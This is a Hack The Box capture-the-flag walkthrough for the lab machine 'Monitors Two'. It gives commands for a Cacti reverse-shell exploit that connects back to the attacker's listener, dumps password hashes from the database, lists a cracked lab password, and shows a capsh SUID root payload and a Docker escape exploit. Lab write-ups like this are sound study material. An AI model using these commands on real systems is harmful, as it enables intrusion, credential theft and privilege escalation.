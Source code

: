 ```yaml
---
title: Monitors Two Hack The Box Walkthrough
published: 2024-03-26
description: ""
image: ./cover.png
tags:
  - easy
  - htbs
category: Walkthrough
draft: false
---
```

nmap scan

The server is running cacti 1.2.22 which is vulnerable

![](./1.png)
![](./3.png)



https://www.exploit-db.com/exploits/51166

exploit : https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

```
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.29 --LPORT=1337
```

![](./4.png)


It's is a docker container

there is a entrypoint.sh

![](./5.png)

run this command to show all the tables


```
mysql --host=db --user=root --password=root cacti -e "show tables;"
```

Let's look at the password of the users

```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"
```

![](./6.png)


we got two user hashes

```
admin - $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus -
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

we where no able to find any password for the admin but we found a password for marcus

![](./7.png)

marcus - funkymonkey

let's ssh with this credentials

![](./8.png)


now we are inside the actual machine not the docker container. 

The machine is running this docker machine which is vulnerable

```
Docker version 20.10.5+dfsg1, build 55c4c88
```

exploit : https://github.com/UncleJ4ck/CVE-2021-41091

for this exploit to run we need to root on the running container

let's run linpeas on the container

![](./9.png)


we found a suid capsh. in gtfobins we found a payload

```
capsh --gid=0 --uid=0 --
```

this gives you the root shell

![](./10.png)

now let's run the exploit
![](./11.png)

![](./12.png)


we have rooted the box.